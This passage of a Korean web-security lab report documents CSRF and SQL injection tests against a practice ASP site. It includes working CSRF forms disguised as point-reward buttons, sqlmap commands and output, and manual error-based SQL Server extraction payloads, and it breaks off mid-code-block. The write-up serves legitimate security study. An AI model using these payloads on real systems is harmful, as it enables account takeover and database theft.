> Kali Firefox에서 직접 로그인하지 않았는데도 Camel이 실습용 피해자 계정 `ㅁㄴㅇㄹ`의 로그인 상태로 응답했다. 따라서 탈취한 Session Cookie를 재사용할 수 있었다.

## 6. 남은 확인

- 최종 제출 전 터미널 캡처에 노출된 과거 Session Cookie를 마스킹한다.
- 최종 제출 전 Burp 캡처에 노출된 Session Cookie를 마스킹한다.
- 방어 관점:
  - 게시글 출력 시 HTML 특수문자를 이스케이프한다.
  - HTML 입력을 허용해야 한다면 검증된 sanitizer로 허용 태그만 남긴다.
  - Session Cookie에 `HttpOnly`를 적용하여 JavaScript의 Cookie 접근을 제한한다.

# 4. CSRF

## 목표

> [!summary] 확인할 것
> Camel의 상태 변경 기능이 CSRF에 취약한지 확인한다.

> [!success] 확인 결과
> 자유게시판에 저장한 버튼 클릭형 CSRF form을 로그인 상태에서 실행하자, form에 지정한 값이 회원정보에 반영되었다.
>
> 같은 원리로 갤러리 게시글 작성용 form도 구성했다. 여러 줄 payload는 `<br>` 삽입으로 실패했지만, 단일 행으로 수정한 뒤 위장 버튼을 클릭하자 지정한 제목과 본문의 갤러리 게시글이 등록되었다.
>
> 회원정보 수정 기능은 로그인 Session Cookie 외에 별도의 CSRF token 또는 재인증을 요구하지 않으므로 CSRF에 취약하다. 갤러리 게시글 작성 기능도 강제 등록까지 재현했지만, 로그아웃 상태에서도 등록 가능한지 비교해야 CSRF 여부를 엄밀하게 확정할 수 있다.

## 기준 자료

- 기준 자료: [CSRF를 이용한 회원정보 변경 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/CSRF%EB%A5%BC%20%EC%9D%B4%EC%9A%A9%ED%95%9C%20%ED%9A%8C%EC%9B%90%EC%A0%95%EB%B3%B4%20%EB%B3%80%EA%B2%BD%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 로그인된 브라우저가 사용자 의도와 무관하게 상태 변경 요청을 보내게 되는 조건.
- Camel에서 다시 확인할 것: 회원정보 변경, 장바구니, 주문, 게시글 작성처럼 상태가 바뀌는 기능의 요청 구조와 추가 검증 여부.

## 1. 분석

### 대상 화면과 요청

| 항목             | 값                                                                        |
| -------------- | ------------------------------------------------------------------------ |
| 우선 확인할 화면      | Camel 회원정보 수정 화면                                                         |
| 대상 선정 이유       | `# 1. 클라이언트 검증 우회`에서 회원정보 수정 화면이 존재하는 것을 확인함                             |
| 수정 화면 URL      | `/login/member_modify.asp`                                               |
| 수정 처리 endpoint | `/login/members_modify_ok.asp`                                           |
| method         | `POST`                                                                   |
| Content-Type   | `application/x-www-form-urlencoded`                                      |
| 주요 parameter   | `re_url`, `mem_pwd`, `mem_email`, `tel1~3`, `hp1~3`, `zip1~2`, `addr1~2` |
| CSRF token     | 캡처한 요청 body에서는 별도 token이 보이지 않음                                          |
| 추가 검증          | 조작 form으로 상태 변경 성공. 별도 재인증 없음                                              |
| 로그인 상태 식별      | Camel은 `ASPSESSIONID...` Cookie를 사용함                                     |
| CSRF 전달 지점 후보  | Camel 자유게시판 본문                                                           |
| 후보 선정 이유       | `# 3. XSS`에서 자유게시판 본문에 저장된 HTML/JavaScript가 열람자의 브라우저에서 실행됨을 확인함         |
| 사용 도구          | Paros 또는 Burp, 브라우저                                                      |

### 관련 코드 또는 응답

```http
POST /login/members_modify_ok.asp HTTP/1.1
Host: 172.16.0.80
Origin: http://172.16.0.80
Content-Type: application/x-www-form-urlencoded
Referer: http://172.16.0.80/login/member_modify.asp
Cookie: ASPSESSIONIDSASBBABT=<REDACTED>

re_url=&mem_pwd=<REDACTED>&mem_email=<REDACTED>&tel1=<REDACTED>&tel2=<REDACTED>&tel3=<REDACTED>&hp1=<REDACTED>&hp2=<REDACTED>&hp3=<REDACTED>&zip1=<REDACTED>&zip2=<REDACTED>&addr1=<REDACTED>&addr2=<REDACTED>
```

### 분석 메모

- 관찰한 사실:
  - Camel에는 회원정보 수정 화면이 존재한다.
  - Camel은 `ASPSESSIONID...` Cookie를 이용해 로그인 상태를 구분한다.
  - 자유게시판 본문에 저장한 HTML/JavaScript는 게시글을 열람한 브라우저에서 실행된다.
  - 정상 회원정보 수정 요청은 `POST /login/members_modify_ok.asp`로 전송된다.
  - 정상 갤러리 게시글 작성 요청은 `POST /board/board_insert.asp`로 전송된다.
  - 캡처한 요청 body에서는 별도의 CSRF token field가 보이지 않았다.
- 수상한 지점:
  - 회원정보 수정 요청이 Session Cookie만으로 처리되고, CSRF token 또는 재인증 같은 추가 검증이 없다면 CSRF 대상이 될 수 있다.
- 우회 또는 공격 가능성:
  - 자유게시판 본문에 hidden form과 자동 submit script를 저장하고, 로그인된 사용자가 글을 열람하도록 유도할 수 있다.

> [!note] endpoint 구분
> `# 1`에서 확인한 `members_save.asp`는 회원가입 endpoint다. 회원정보 **수정** endpoint라고 가정하지 않는다.
>
> 이번 실습에서 실제로 확인한 회원정보 수정 endpoint는 `/login/members_modify_ok.asp`다.

## 2. 가설

> [!note] 가설
> Camel의 상태 변경 요청이 세션 쿠키만으로 처리되고 별도 token/재인증이 없다면, 피해자 브라우저를 통해 CSRF 요청을 보낼 수 있을 것이다.

| 근거 | 예상 |
|---|---|
| 정상 회원정보 수정 요청은 `POST /login/members_modify_ok.asp`로 전송됨 | hidden form으로 동일한 요청 구조를 재구성할 수 있음 |
| 정상 갤러리 게시글 작성 요청은 `POST /board/board_insert.asp`로 전송됨 | 게시글 작성용 hidden form으로 동일한 요청 구조를 재구성할 수 있음 |
| 캡처한 body에 별도 CSRF token field가 보이지 않음 | 로그인된 브라우저에서 조작 form을 제출하면 서버가 요청을 처리할 가능성이 있음 |

## 3. 실행

> [!todo] 실습 절차
> 1. 상태 변경 기능의 요청 구조를 확인한다.
> 2. 필요한 parameter와 method를 정리한다.
> 3. CSRF form 또는 script를 구성한다.
> 4. 로그인된 브라우저에서 상태 변경이 일어나는지 확인한다.

### 3-1. 정상 회원정보 수정 요청 캡처

더미 계정의 회원정보를 정상 수정하고 Paros에서 요청을 확인했다.

```text
POST /login/members_modify_ok.asp
Content-Type: application/x-www-form-urlencoded

re_url=&mem_pwd=<REDACTED>&mem_email=<REDACTED>&tel1=<REDACTED>&tel2=<REDACTED>&tel3=<REDACTED>&hp1=<REDACTED>&hp2=<REDACTED>&hp3=<REDACTED>&zip1=<REDACTED>&zip2=<REDACTED>&addr1=<REDACTED>&addr2=<REDACTED>
```

### 3-2. 버튼 클릭형 CSRF form 작성

정상 요청의 field를 hidden input으로 옮겨 아래 form을 작성하였다.

```html
이벤트 중. 버튼 누르면 포인트 줌.
<form method="POST" action="http://172.16.0.80/login/members_modify_ok.asp">
  <input type="hidden" name="re_url" value="" />
  <input type="hidden" name="mem_pwd" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="mem_email" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="tel1" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="tel2" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="tel3" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="hp1" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="hp2" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="hp3" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="zip1" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="zip2" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="addr1" value="<NEW_LAB_VALUE>" />
  <input type="hidden" name="addr2" value="<NEW_LAB_VALUE>" />
  <input type="submit" value="1000포인트 획득" />
</form>
```

### 3-3. 첫 제출 실패와 원인 후보

처음에는 여러 field에 같은 문자열을 넣어 요청을 제출했다. 요청은 ASP 처리부와 DB 갱신 단계까지 도달했지만, SQL Server가 아래 오류를 반환했다.

```text
Microsoft OLE DB Provider for SQL Server error '80040e57'

문자열이나 이진 데이터는 잘립니다.

/login/members_modify_ok.asp, line 14
```

> [!warning] 첫 시점의 판정
> 조작 form이 `/login/members_modify_ok.asp`까지 전달되어 DB 갱신 로직이 실행된 것은 확인했다.
>
> 다만 일부 입력값이 DB 컬럼 길이를 초과하여 저장은 실패했다. 아직 CSRF 성공으로 판정하지 않는다.

가능성이 높은 원인은 전화번호, 우편번호처럼 길이가 짧은 column에 긴 문자열을 넣은 것이다. 다음 시도에서는 각 field를 짧은 ASCII 더미 값으로 변경한다.

### 3-4. 짧은 더미 값으로 재시도

첫 시도의 오류가 CSRF 방어 때문인지, 입력값 길이 때문인지 분리하기 위해 짧은 ASCII 더미 값으로 다시 제출했다.

그 결과 form에 지정한 값이 회원정보 수정 화면에 반영되었다. 로그인된 사용자가 게시글의 버튼을 누르면 브라우저가 Session Cookie를 포함한 회원정보 수정 요청을 보내고, Camel은 이를 정상 요청으로 처리한다.



### 3-5. 이전 실습의 나머지 변형을 생략한 이유

이전 실습에서는 같은 원리를 네 가지 조합으로 확인했다.

| 대상 기능 | 실행 시점 | 이번 Camel에서 반복 여부 | 차이점 |
|---|---|---|---|
| 회원정보 변경 | 버튼 클릭 | 확인 완료 | 이번 실습에서 사용한 방식 |
| 회원정보 변경 | 게시글 열람 즉시 자동 제출 | 생략 | form에 `id`를 주고 `submit()`을 호출하는 trigger만 추가 |
| 게시글 작성 | 버튼 클릭 | 확인 완료 | 상태 변경 endpoint와 field가 게시글 작성용으로 바뀜 |
| 게시글 작성 | 게시글 열람 즉시 자동 제출 | 생략 | 게시글 작성용 endpoint와 field를 사용하고 `submit()` trigger 추가 |

정확히는 form의 endpoint, field 또는 제출 trigger가 달라진다. 그러나 네 방식 모두 아래 원리를 공유한다.

```text
조작한 상태 변경 요청을 form으로 재구성
-> 로그인된 사용자의 브라우저가 Session Cookie를 포함해 요청 전송
-> 서버가 사용자의 실제 의도를 추가로 확인하지 않고 요청 처리
```

처음에는 버튼 클릭형 회원정보 변경 CSRF의 성공으로 취약점 존재를 입증하고 나머지 변형은 반복하지 않으려 했다. 이후 게시글 작성 기능에도 같은 원리를 적용하여 버튼 클릭형 CSRF를 추가로 확인했다.

### 3-6. 정상 갤러리 게시글 작성 요청 캡처

갤러리에 더미 글을 정상 작성하고 Paros에서 요청 구조를 확인했다.

```http
POST /board/board_insert.asp HTTP/1.1
Content-Type: multipart/form-data; boundary=...

cmd2=write
info_idx=
p_from=down
re=
sr=
k=
w=
page=1
gubun=gel
b_com=yes
info_title=123
info_name=HACKER
info_pwd=1234
info_content=asdf
info_file=
html_ch=txt
```

`gubun=gel`, `p_from=down`은 갤러리 게시판을 지정한다. 게시글 작성 요청에도 별도 CSRF token은 보이지 않았다.

### 3-7. 게시글 작성 CSRF form 구성

정상 요청의 field를 hidden input으로 옮겨 자유게시판 본문에 위장 버튼을 저장했다.

처음에는 읽기 쉽도록 form을 여러 줄로 입력했지만, Camel 게시판은 줄바꿈을 `<br>`로 바꾸어 저장했다.

```html
<form method="POST"<br>
 action="http://172.16.0.80/board/board_insert.asp"<br>
 enctype="multipart/form-data"><br>
```

이 상태에서는 `<form>` opening tag가 중간의 `<br>` 때문에 깨진다. 브라우저는 지정한 `action`을 인식하지 못하고 현재 게시글 보기 URL로 POST했다.

```http
POST /board/index.asp?cmd=view&page=1&info_ref=12&info_idx=12&b_com=yes&gubun=gel&p_from=down&w=&k=&sr=
```

> [!warning] 첫 시점의 판정
> CSRF form의 field 자체는 전송되었지만 endpoint가 `/board/board_insert.asp`가 아니므로 게시글 작성 CSRF 성공으로 판정하지 않는다.
>
> 실패 원인은 상태 변경 endpoint나 CSRF 방어가 아니라, 게시판 저장 과정에서 줄바꿈이 `<br>`로 변환되어 `<form>` opening tag가 깨진 것이다.

### 3-8. 단일 행 payload로 수정

XSS Session Cookie 전송 트러블슈팅과 같은 방식으로, 줄바꿈이 `<br>`로 바뀌지 않도록 form 전체를 단일 행으로 다시 저장했다.

```html
이벤트 중. 버튼 누르면 포인트 줌.<form method="POST" action="http://172.16.0.80/board/board_insert.asp" enctype="multipart/form-data"><input type="hidden" name="cmd2" value="write"><input type="hidden" name="info_idx" value=""><input type="hidden" name="p_from" value="down"><input type="hidden" name="re" value=""><input type="hidden" name="sr" value=""><input type="hidden" name="k" value=""><input type="hidden" name="w" value=""><input type="hidden" name="page" value="1"><input type="hidden" name="gubun" value="gel"><input type="hidden" name="b_com" value="yes"><input type="hidden" name="info_title" value="CSRF 게시글 작성 성공"><input type="hidden" name="info_name" value="HACKER"><input type="hidden" name="info_pwd" value="1234"><input type="hidden" name="info_content" value="피해자 브라우저를 통한 강제 등록"><input type="hidden" name="html_ch" value="txt"><input type="submit" value="1000포인트 획득"></form>
```

### 3-9. 위장 버튼 클릭 후 갤러리 게시글 등록 확인

로그인된 브라우저로 자유게시판의 CSRF 게시글을 열고 `1000포인트 획득` 버튼을 클릭했다. 이번에는 브라우저가 `/board/board_insert.asp`로 요청을 전송했고, 서버는 글 등록 성공 alert를 반환했다.

```text
글이 등록되었습니다.
```

이후 갤러리 목록과 상세 화면에서 다음 글이 생성된 것을 확인했다.

```text
제목: CSRF 게시글 작성 성공
작성자: HACKER
본문: 피해자 브라우저를 통한 강제 등록
```



> [!success] 게시글 강제 등록 결과
> 로그인된 사용자가 자유게시판의 위장 버튼을 클릭하자, 사용자의 의도와 무관하게 갤러리 게시글이 등록되었다.
>
> 회원정보 변경과 게시글 작성은 endpoint와 field는 다르지만, 로그인된 브라우저가 Session Cookie를 포함한 상태 변경 요청을 보내고 서버가 이를 추가 검증 없이 처리한다는 원리는 같다.
>
> 다만 게시글 작성 요청에는 `info_name`, `info_pwd`도 포함된다. 로그아웃 상태에서도 같은 요청이 처리되는지 아직 비교하지 않았으므로, 현재 증거만으로는 피해자의 로그인 권한이 반드시 필요했다고 단정하지 않는다.

## 4. 증거 - CSRF

| 증거                                   | 설명                             |
| ------------------------------------ | ------------------------------ |
| ![[Pasted image 20260601000048.png]] | 정상 회원정보 수정 요청을 캡처한 Paros 화면    |
| ![[Pasted image 20260531235917.png]] | 버튼 클릭형 CSRF form을 저장한 게시글 화면   |
| ![[Pasted image 20260531235851.png]] | SQL Server 문자열 잘림 오류 화면        |
| ![[Pasted image 20260531235835.png]] | CSRF form에 지정한 값이 회원정보에 반영된 결과 |
| ![[Pasted image 20260601105915.png]] | 단일 행 게시글 작성 CSRF form의 위장 버튼을 클릭한 뒤 표시된 `글이 등록되었습니다.` alert |
| ![[Pasted image 20260601105932.png]] | 갤러리 목록에 `CSRF 게시글 작성 성공` 제목의 새 글이 등록된 결과 |
| ![[Pasted image 20260601105945.png]] | 새 갤러리 글의 상세 화면. 지정한 작성자, 제목, 본문이 반영됨 |


> [!warning] PDF 제출 전 확인
> 요청 캡처와 화면에 남아 있는 개인정보, 비밀번호, Session Cookie는 마스킹한다.

## 5. 판정

> [!success] 성공
> 자유게시판에 저장한 버튼 클릭형 CSRF form을 로그인 상태에서 실행한 결과, form에 지정한 값이 회원정보에 반영되었다.
>
> 같은 방식으로 갤러리 게시글 작성용 form을 구성했다. 여러 줄 payload는 `<br>` 삽입으로 실패했지만, 단일 행으로 수정한 뒤 실행하자 지정한 제목과 본문의 갤러리 게시글이 등록되었다.
>
> Camel의 회원정보 수정 기능은 로그인 Session Cookie 외에 별도의 CSRF token 또는 재인증을 요구하지 않는다. 따라서 회원정보 수정 기능은 CSRF에 취약하다.
>
> 갤러리 게시글 작성 기능에서는 위장 버튼을 통한 강제 등록을 재현했다. 다만 로그아웃 상태에서도 등록 가능한지 비교하지 않았으므로, 이 기능의 CSRF 여부는 추가 확인 대상으로 남긴다.

## 6. 남은 확인

- 상태 변경 endpoint: `/login/members_modify_ok.asp` 확인
- 게시글 작성 endpoint: `/board/board_insert.asp` 확인
- CSRF token: 캡처한 요청 body에서는 별도 token이 보이지 않음
- 추가 검증: 조작 form의 값이 회원정보에 반영되고, 갤러리 글도 등록되어 별도 재인증이 없음을 확인
- 여러 줄 CSRF form 실패 원인: 게시판 저장 과정에서 줄바꿈이 `<br>`로 바뀌어 `<form>` opening tag가 깨짐
- 버튼 클릭형 회원정보 변경 CSRF: 확인 완료
- 버튼 클릭형 게시글 강제 등록: 확인 완료. 로그아웃 상태 비교 후 CSRF 여부 확정 필요
- 자동 제출형 CSRF: 동일 원리이므로 이번 프로젝트에서는 반복 생략
- PDF 제출 전: 스크린샷의 개인정보, 비밀번호, Session Cookie 마스킹 필요
- 방어 관점: CSRF token과 중요 작업 재인증 적용 검토. `SameSite` Cookie는 외부 site를 경유하는 CSRF의 완화책이지만, 이번처럼 같은 site의 게시판을 전달 지점으로 사용한 경우에는 단독 방어책이 되지 않음

# 5. SQL Injection(SqlMap)

## 목표

> [!summary] 확인할 것
> Camel 로그인 기능의 `id` parameter에서 SQL Injection이 가능한지 확인한다.
>
> 이전 실습에서 수행한 인증 우회를 먼저 재현하고, 이후 SqlMap과 수동 Error 기반 추출로 DB 정보를 확인한다. Paros Spider로 발견한 별도 관리자 로그인 endpoint에서도 인증 우회 가능성을 확인한다.

> [!success] 확인 결과
> - 일반 회원 로그인 endpoint에서 아무 계정 인증 우회: 실패
> - 일반 회원 로그인 endpoint에서 특정 계정 인증 우회: 실패
> - 실패 원인 조사: `id` SQL Injection 존재와 Microsoft SQL Server 2000 환경 확인
> - 수동 Error 기반 정보 추출: DB명 `camel`, Table명 `member`, Column명 `mem_id`, 더미 Data `hacker:HACKER` 확인
> - DB 정보 추출: DB명 `camel`, Table 목록, `member` Column 목록, 더미 계정 `hacker` 1건 확인
> - Paros Spider로 발견한 관리자 로그인 endpoint: `admin_id` parameter SQL Injection 인증 우회 성공

## 기준 자료

- 기준 자료: [SQL Injection 개념과 인증 우회](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/SQL%20Injection%20%EA%B0%9C%EB%85%90%EA%B3%BC%20%EC%9D%B8%EC%A6%9D%20%EC%9A%B0%ED%9A%8C.md)
- 기준 자료: [SQL Injection Error 기반 DB명 정보 추출 실습](https://github.com/Unoh03/Obsi2/blob/main/10_%ED%95%99%EC%8A%B5%20%EB%85%B8%ED%8A%B8/%EC%8B%9C%EC%8A%A4%ED%85%9C%EB%B3%B4%EC%95%88/%EC%9B%B9%EB%B3%B4%EC%95%88/SQL%20Injection%20Error%20%EA%B8%B0%EB%B0%98%20DB%EB%AA%85%20%EC%A0%95%EB%B3%B4%20%EC%B6%94%EC%B6%9C%20%EC%8B%A4%EC%8A%B5.md)
- 참고할 부분: 인증 조건 조작, 입력값이 SQL 문법으로 해석되는지 확인하는 방식, SqlMap을 이용한 자동 진단.
- Camel에서 다시 확인할 것: CARE 실습의 인증 우회 payload가 그대로 적용되는지, 취약 parameter와 DBMS는 무엇인지, DB 정보가 어느 범위까지 노출되는지.

## 1. 분석

### 대상 화면과 요청

| 항목               | 값                                 |
| ---------------- | --------------------------------- |
| 화면               | Camel 로그인 화면                      |
| 로그인 화면 URL       | `/login/login.asp?ba=search`      |
| 로그인 처리 endpoint  | `/login/login_chk.asp`            |
| method           | `GET`                             |
| 주요 parameter     | `ba`, `re_url`, `id`, `pass`      |
| 취약 parameter       | `id`                              |
| 사용 도구            | Paros, 브라우저, SqlMap                 |

Paros Spider로 별도의 관리자 로그인 경로도 발견했다.

| 항목              | 값                                  |
| --------------- | ---------------------------------- |
| 관리자 로그인 화면 URL | `/admin/index.asp`                 |
| 관리자 로그인 처리 endpoint | `/admin/admin_login.asp`           |
| method          | `POST`                             |
| 주요 parameter    | `admin_id`, `admin_pass`, `Submit2222` |
| 취약 parameter      | `admin_id`                         |

### 관련 코드 또는 응답

로그인 화면의 JavaScript는 입력값이 비어 있는지만 검사한다.

```javascript
function send(){	//회원 로그인
	if(document.form.id.value==""){
		alert("아이디를 입력해주세요")
		document.form.id.focus();
		return
	}
	if(document.form.pass.value==""){
		alert("아이디를 입력해주세요")
		document.form.pass.focus();
		return
	}
	document.form.submit();
}
```

> [!note] alert 메시지를 해석할 때 주의할 점
> 비밀번호가 비어 있어도 `아이디를 입력해주세요`라는 같은 메시지가 표시된다. 따라서 alert 메시지만 보고 어느 field가 비어 있는지 단정하면 안 된다.

### 분석 메모

- 관찰한 사실:
  - 로그인 요청은 `GET /login/login_chk.asp`로 전송된다.
  - JavaScript의 `if`문은 ID와 비밀번호의 빈칸만 검사한다.
  - Paros에서 request를 직접 수정하면 브라우저의 빈칸 검사를 우회할 수 있다.
- 확정한 것:
  - `id`는 SQL Injection point다.
  - Camel의 DBMS는 Microsoft SQL Server 2000이다.
  - 현재 DB명은 `camel`이다.
  - Paros Spider로 별도 관리자 로그인 endpoint `/admin/admin_login.asp`를 발견했다.
  - 관리자 로그인 요청의 `admin_id` parameter를 조작하여 관리자 페이지에 접근했다.
- 아직 확정하지 않은 것:
  - 서버의 실제 SQL query 원문은 확인하지 않았다.
  - SQL 조회 이후 ASP 코드가 비밀번호를 별도로 비교하는지는 추정이다.
  - SqlMap 출력에 함께 표시된 `Django`의 의미는 확인하지 못했다.

## 2. 가설

> [!note] 가설
> 이전 CARE 실습처럼 로그인 Query의 조건을 조작하면, 아무 계정 또는 특정 계정으로 인증을 우회할 수 있을 것이다.
>
> 인증 우회가 되지 않더라도 `id`가 SQL query에 직접 연결된다면, SqlMap으로 SQL Injection point를 탐지하고 DB 정보를 확인할 수 있을 것이다.

| 가설 | 결과 |
|---|---|
| 아무 계정 인증 우회 | 실패 |
| 특정 계정 인증 우회 | 실패 |
| `id` SQL Injection 탐지 | 성공 |
| DB 정보 확인 | DB명 `camel`, Table 목록, `member` Column 목록, 더미 계정 `hacker` 1건 확인 |
| 관리자 로그인 `admin_id` SQL Injection 인증 우회 | 성공 |

## 3. 실행

### 3-1. 처음 세운 진행 계획

처음에는 이전 실습의 흐름을 Camel에서 순서대로 다시 확인하려 했다.

| 단계 | 목적 | 현재 상태 |
|---|---|---|
| 1 | 항상 참 조건을 이용해 아무 계정으로 인증 우회 | 실패 |
| 2 | 특정 ID 뒤의 비밀번호 조건을 주석 처리해 해당 계정으로 인증 우회 | 실패 |
| 3 | DB명, Table명, Column명, Data 확인 | 더미 계정 `hacker` 1건까지 확인 |



### 3-2. 1단계와 2단계 인증 우회 실패

이전 실습에서 사용한 두 가지 방향을 Camel에 적용해 보았지만 로그인에는 성공하지 못했다.

| 시도 | ID parameter | 비밀번호 | 관찰 결과 | 해석 |
|---|---|---|---|---|
| 이전 실습 payload를 입력창에서 그대로 시도 | 항상 참 조건 또는 특정 계정 뒤 주석 | 비밀번호를 비우기도 함 | 로그인되지 않음 | 비밀번호를 비우면 브라우저의 빈칸 검사에 먼저 걸리므로 서버 측 인증 우회를 검증한 시도로 보기 어려움 |
| 존재하지 않는 계정명 뒤에 주석 추가 | `wkddnsgh01%27--+` | 틀린 비밀번호 | 아이디가 없다는 alert | `wkddnsgh01`은 알려진 실습 계정명이 아니므로 특정 계정 우회 여부를 판정할 수 없음 |
| 항상 참 조건 | `%27+OR+%271%27%3D%271` | 틀린 비밀번호 | 비밀번호 불일치 alert | SQL 조작으로 어떤 레코드가 조회되었을 가능성이 있지만 로그인 우회에는 실패함 |
| 알려진 계정명 뒤에 주석 추가 | `wkddnsgh%27--+` | `1` | 아이디가 존재하지 않는다는 alert | 교정된 계정명으로 재시도했지만 로그인되지 않음 |
| 같은 ID payload로 빈 비밀번호 시도 | `wkddnsgh%27--+` | 빈 값 | 아이디가 존재하지 않는다는 alert | 동일한 alert를 관찰함. 다만 raw request를 저장하지 않아 빈 값이 서버까지 전송된 방식은 미확정 |

> [!warning] 이 시점의 결론
> 이전 CARE 실습처럼 `WHERE` 조건을 조작하는 단순 payload만으로는 인증 우회에 성공하지 못했다.
>
> 이것만으로 Camel에 SQL Injection이 없다고 결론 내릴 수는 없다. 실패 원인을 좁히기 위해 입력값별 반응과 DBMS를 확인한다.

### 3-3. 실패 원인 조사

정상 로그인 요청을 기준선으로 잡고, `id`와 `pass`에 작은따옴표(`%27`)를 각각 넣어 응답을 비교했다.

| 변경한 값 | 응답 | 해석 |
|---|---|---|
| 정상 ID, 정상 비밀번호 | `302 Object moved`, `Location: /index.asp` | 정상 로그인 기준선 |
| `id=%27`, 정상 비밀번호 | `500 Internal Server Error`, SQL Server 인용 부호 오류 | `id`가 SQL query에 영향을 줌 |
| 정상 ID, `pass=%27` | `200 OK`, 비밀번호 불일치 alert | `pass`에서는 같은 오류가 관찰되지 않음 |

```http
GET /login/login_chk.asp?ba=search&re_url=&id=%27&pass=<REDACTED>
```

```text
HTTP/1.1 500 Internal Server Error
Microsoft OLE DB Provider for SQL Server error '80040e14'
문자열 앞에 닫히지 않은 인용 부호가 있습니다.
/login/login_chk.asp, line 21
```

> [!note] AI의 잠정 해석
> 아래 내용은 확인된 서버 코드가 아니라, 지금까지 관찰한 응답을 설명하기 위한 AI의 사견이다. 서버 ASP 원문을 확인하기 전까지는 확정하지 않는다.
>
> 인증 우회 실패의 주원인은 오래된 SQL 문법 자체보다, 이전 CARE 실습과 Camel의 인증 처리 구조가 다르기 때문일 가능성이 높다. `id=%27`에서는 SQL 오류가 발생하고 `pass=%27`에서는 비밀번호 불일치 alert가 표시되므로, Camel은 ID로 레코드를 조회한 뒤 ASP 코드에서 비밀번호를 별도로 비교할 수 있다.
>
> `wkddnsgh%27--+` 시도에서 아이디가 존재하지 않는다는 alert가 표시된 이유는 아직 설명되지 않았다. 실제 query 구조가 예상과 다르거나, 입력값이 별도로 가공되거나, 주석 문자열이 기대한 형태로 처리되지 않았을 수 있다.

현재 결과와 모순되지 않는 서버 처리 흐름의 후보는 아래와 같다.

```text
id를 이용해 회원 레코드 조회
-> 조회 결과가 없으면 아이디 없음 alert
-> 조회 결과가 있으면 별도 로직으로 비밀번호 비교
-> 비밀번호가 다르면 비밀번호 불일치 alert
```

### 3-4. SqlMap으로 실패 원인 교차검증

구식 SQL Server의 문법 차이 때문에 수동 인증 우회가 실패한 것인지 확인하고, `id`가 실제 SQL Injection point인지 교차검증하기 위해 SqlMap을 실행했다.

```bash
sqlmap -u "http://172.16.0.80/login/login_chk.asp?ba=search&re_url=&id=wkddnsgh&pass=0000" \
  -p id \
  --batch \
  --current-db
```

SqlMap은 이전 실행에서 찾은 injection point를 저장하고 있었기 때문에, 이번 실행에서는 저장된 session을 불러와 결과를 재사용했다.

```text
sqlmap resumed the following injection point(s) from stored session:

Parameter: id (GET)
    Type: boolean-based blind
    Type: error-based
    Type: stacked queries
    Type: time-based blind
    Type: UNION query

web server operating system: Windows 2000
web application technology: ASP, Microsoft IIS 5.0
back-end DBMS: Microsoft SQL Server 2000
current database: 'camel'
```

> [!note] SqlMap 출력 해석
> SqlMap 출력에 `Django`도 표시되었지만, 현재까지 확인한 Camel 환경만으로는 의미를 설명할 수 없다. 이번 판정의 확정 정보에는 포함하지 않고 보류한다.
>
> SqlMap 진단 과정에서 `302 /index.asp` redirect도 발생했다. 이것만으로 수동 인증 우회가 성공했다고 판정하지 않는다.

SqlMap이 사용한 payload 일부에는 작은따옴표와 `--` 주석이 포함되어 있었다.

```sql
wkddnsgh';WAITFOR DELAY '0:0:5'--
```

따라서 수동 인증 우회가 실패한 이유는 `--` 주석 문법 자체가 오래된 SQL Server에서 동작하지 않기 때문은 아니다.

> [!success] 교차검증 결과
> - `id`는 SQL Injection point다.
> - DBMS는 Microsoft SQL Server 2000이다.
> - SqlMap도 작은따옴표와 `--` 주석을 포함한 payload를 사용한다.
> - 구식 SQL Server의 주석 문법 차이는 수동 인증 우회 실패 원인이 아니다.
> - Table 목록 등 본격적인 DB 정보 추출 전이었지만, `--current-db` 실행으로 현재 DB명 `camel`도 확인했다.

### 3-5. 수동 Error 기반 정보 추출

SqlMap 자동 추출만으로 종결하지 않고, 이전 실습처럼 SQL 문법을 직접 넣어 `Database -> Table -> Column -> Data` 순서로 정보를 확인했다.

Camel은 Microsoft SQL Server 2000 환경이므로, 이전 CARE 실습에서 사용한 MySQL 계열의 `updatexml()`, `database()`, `group_concat()`, `LIMIT`은 그대로 사용할 수 없다. 대신 문자열을 정수형으로 변환하도록 강제하여 오류 메시지에 값을 노출시키는 방식을 사용했다.

아래 payload의 `<space>`는 실제 입력 시 공백 한 칸으로 바꾼다.

```text
조회하려는 문자열
-> CONVERT(int, 문자열) 실행
-> 문자열을 정수로 변환하지 못해 오류 발생
-> 변환하려던 문자열이 SQL Server 오류 메시지에 노출
```

#### 1. Database명 확인

```sql
hacker' AND 1=CONVERT(int,DB_NAME())--<space>
```

```text
nvarchar 값 'camel'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
```

현재 Database명이 `camel`임을 확인했다.

#### 2. Table명 확인

```sql
hacker' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sysobjects WHERE xtype='U' AND name='member'))--<space>
```

```text
nvarchar 값 'member'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
```

`camel` Database에 사용자 Table `member`가 존재함을 확인했다.

#### 3. Column명 확인

```sql
hacker' AND 1=CONVERT(int,(SELECT TOP 1 c.name FROM syscolumns c JOIN sysobjects o ON c.id=o.id WHERE o.name='member' AND c.name='mem_id'))--<space>
```

```text
nvarchar 값 'mem_id'을(를) int 데이터 형식의 열로 변환하는 중 구문 오류가 발생했습니다.
```

`member` Table에 ID를 저장하는 Column `mem_id`가 존재함을 확인했다.

#### 4. 더미 Data 확인

```sql
